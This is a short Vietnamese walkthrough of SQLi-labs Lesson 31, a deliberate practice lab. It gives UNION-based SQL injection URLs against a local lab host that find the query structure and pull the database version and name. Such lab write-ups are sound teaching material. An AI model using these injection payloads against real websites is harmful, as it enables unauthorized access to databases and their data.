



# Những việc làm được với lesson-31
Việc check xem nó là dạng DB gì thì làm giống như những lesson trước. Ta sẽ sử dụng command `nmap`

Sau khi đăng nhập vào lesson-31


Ta thấy rằng nó đã xuất dữ liệu ra ngoài sau khi đăng nhập user vậy nên ta có thể sử dụng union và select 



1. Tìm cấu trúc của nó 
```
192.168.80.225/sqli-labs/Less-31/?id=1") union select 1,2,3 limit 1,1 --+
```



Ta sẽ thử các ký tự comment và các ký tự trong truy vấn như những lần trước và ta sẽ tìm ra được cấu trúc truy vấn của nó 

Với cấu trúc này thì ta sẽ tìm được rồi thì ta sẽ thay cấu trúc truy vấn để tìm được dữ liệu của DB mà thôi 

Ví dụ tìm về version và DB hiện tại của nó

```
192.168.80.225/sqli-labs/Less-31/?id=1") union select 1,version(),database() limit 1,1 --+
```



Tương tự như thế ta sẽ tìm được các dữ liệu của bài này 